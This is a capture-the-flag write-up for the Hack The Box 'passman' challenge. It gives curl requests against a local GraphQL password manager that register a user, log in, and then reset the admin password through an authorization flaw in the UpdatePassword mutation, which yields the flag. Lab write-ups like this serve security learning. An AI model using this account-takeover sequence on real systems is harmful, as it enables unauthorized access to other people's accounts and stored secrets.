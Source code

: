 # passman

**SOLVED**

> Pandora discovered the presence of a mole within the ministry. 
> To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. 
> Can you hack into the password manager?

`./build-docker.sh`

Dockerfile -> mariadb, node

```sh
# register user
curl 'http://localhost:1337/graphql' \
  -X POST \
  -H 'content-type: application/json' \
  --data '{"query":"mutation{RegisterUser(email:\"test@test.com\",username:\"barrett\",password:\"password\"){message}}"}'

# login as user
curl 'http://localhost:1337/graphql' \
  -X POST \
  -H 'content-type: application/json' \
  --data '{"query":"mutation{LoginUser(username:\"barrett\",password:\"password\"){token message}}"}'
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImJhcnJldHQiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5MjA3MDY5fQ.i7e64OjxzRph5gbPEF5qA2NoN1qqEK5dCGuSXxIOhPQ

curl 'http://localhost:1337/graphql' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImJhcnJldHQiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5MjA3MDY5fQ.i7e64OjxzRph5gbPEF5qA2NoN1qqEK5dCGuSXxIOhPQ' \
  --data '{
    "query":"query { getPhraseList { note  } }"
  }'
# {"data":{"getPhraseList":[]}} 

# https://www.apollographql.com/blog/graphql/basics/mutation-vs-query-when-to-use-graphql-mutation/

# change admin password
curl 'http://localhost:1337/graphql' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImJhcnJldHQiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5MjA3MDY5fQ.i7e64OjxzRph5gbPEF5qA2NoN1qqEK5dCGuSXxIOhPQ' \
  --data '{"query":"mutation($username:String!,$password: String!){UpdatePassword(username:$username,password:$password){message,token}}","variables":{"username":"admin","password":"password"}}'

# signed in as admin and found flag
```

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!`
